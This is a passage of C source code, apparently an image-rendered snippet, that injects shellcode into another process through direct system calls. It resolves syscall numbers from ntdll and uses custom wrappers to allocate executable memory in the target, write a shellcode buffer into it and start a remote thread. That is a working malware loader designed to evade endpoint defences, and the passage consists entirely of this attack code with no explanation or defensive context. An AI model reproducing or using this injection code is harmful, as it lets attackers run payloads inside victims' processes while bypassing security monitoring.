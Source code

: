 ```c
	if (Status != STATUS_SUCCESS) {
		printf("NtOpenProcess failed! Error Code: 0x%lx\n", Status);

		CloseHandle(HandleProcess);
		return 1;
	}

	NtAllocateVirtualMemorySSN = GetSSN(NTDLLAddress, "NtAllocateVirtualMemory");
	Status = My_NtAllocateVirtualMemory(HandleProcess, &RemoteBuffer, 0, &ShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (Status != STATUS_SUCCESS) {
		printf("NtAllocateVirtualMemory failed! Error Code: 0x%lx\n", Status);

		CloseHandle(HandleProcess);
		return 1;
	}

	NtWriteVirtualMemorySSN = GetSSN(NTDLLAddress, "NtWriteVirtualMemory");
	Status = My_NtWriteVirtualMemory(HandleProcess, RemoteBuffer, Shellcode, ShellcodeSize, NULL);
	if (Status != STATUS_SUCCESS) {
		printf("NtWriteVirtualMemory failed! Error Code: 0x%lx\n", Status);

		CloseHandle(HandleProcess);
		return 1;
	}

	NtCreateThreadExSSN = GetSSN(NTDLLAddress, "NtCreateThreadEx");
	Status = My_NtCreateThreadEx(&HandleThread, THREAD_ALL_ACCESS, NULL, HandleProcess, (LPTHREAD_START_ROUTINE)RemoteBuffer, NULL, FALSE, 0, 0, 0, NULL);
	if (Status != STATUS_SUCCESS) {
		printf("NtCreateThreadEx failed! Error Code: 0x%lx\n", Status);
		return 1;
	}

	NtWaitForSingleObjectSSN = GetSSN(NTDLLAddress, "NtWaitForSingleObject");
	Status = My_NtWaitForSingleObject(HandleThread, FALSE, NULL);
	if (Status != STATUS_SUCCESS) {
		printf("NtWaitForSingleObject failed! Error Code: 0x%lx\n", Status);

		CloseHandle(HandleThread);
		CloseHandle(HandleProcess);
		return 1;
	}
	printf("Shellcode executed successfully\n");


	CloseHandle(HandleThread);
	CloseHandle(HandleProcess);
    return 0;
}
```
